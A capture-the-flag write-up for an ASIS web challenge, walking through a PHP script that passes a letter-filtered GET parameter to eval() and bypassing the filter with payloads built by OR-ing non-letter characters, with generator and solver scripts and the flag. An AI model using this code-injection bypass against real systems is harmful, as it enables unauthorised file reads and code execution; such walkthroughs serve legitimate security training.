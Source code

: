 ## Web Warm-up
The main idea finding the flag is to find the flag using PHP injections.

#### Step-1:

We are given a URL [http://69.90.132.196:5003/?view-source](http://69.90.132.196:5003/?view-source) which greets us with this PHP script. We want to get contents of a file `flag.php` in this task.

The PHP script is as follows:
```php
<?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    die();
}

if(isset($_GET['warmup'])){
    if(!preg_match('/[A-Za-z]/is',$_GET['warmup']) && strlen($_GET['warmup']) <= 60) {
    eval($_GET['warmup']);
    }else{
        die("Try harder!");
    }
}else{
    die("No param given");
}
?>
```
#### Step-2:
The PHP code is executed and when `eval()` function is execute, the parameter which we need to take care is `warmup`.

We can send this payload as `warmup`, but written as some operation of 2 strings that don't use any alphabets.

#### Step-3:

The following `Gen.py` will help to generate such payloads.

```
#!/usr/bin/env python
from rich import print
import string

pay = "readfile('flag.php');"
w = {c:[] for c in pay}
cand = '0123456789!#$%&()*+,-./:;<=>?@[]^_`{|}~"\''
for c in cand:
    if c not in string.ascii_letters:
        for d in cand:
            if d not in string.ascii_letters:
                f = chr(ord(c)|ord(d))
                if f in w and not w[f]:
                    w[f].append((c, d))

print(w)
one = []
two = []
for c in pay:
    one.append(w[c][0][0])
    two.append(w[c][0][1])
print(f'"{"".join(one)}"|"{"".join(two)}"')
```

#### Step-4:

When we execute it in terminal using `python3 Gen.py` we obtain the following result:

```
{
    "'": [('!', '&')],
    '(': [('(', '(')],
    ')': [('!', '(')],
    '.': [('$', '*')],
    ';': [('0', '+')],
    'a': [('!', '@')],
    'd': [('$', '@')],
    'e': [('%', '@')],
    'f': [('&', '@')],
    'g': [('@', "'")],
    'h': [('(', '@')],
    'i': [(')', '@')],
    'l': [(',', '@')],
    'p': [('0', '@')],
    'r': [('2', '@')],
}
"2%!$&),%(!&,!@$0(0!!0"|"@@@@@@@@(&@@@'*@@@&(+"
```
The last line is our payload.

#### Step-5:
Next we use our final `Solution.py` to get the flag.

The code for `Solution.py` would be as follows:

```
#!/usr/bin/env python

import requests

url = 'http://69.90.132.196:5003/'
payl = {
    'warmup': r"""
("2%!$&),%"|"@@@@@@@@")("&,!@$0(0"|"@@@'*@@@"); #Payloads produced before inserted here.
""".strip()
}
r = requests.get(url, params=payl)
print(r.text.split('"')[1])
```
#### Step-6:
Finally when we execute this by `python3 Solution.py` we get the flag.


#### Step-7:
Finally, the flag is:
`ASIS{w4rm_up_y0ur_br4in}`

###### Definitely, not a Warm Up xD. 
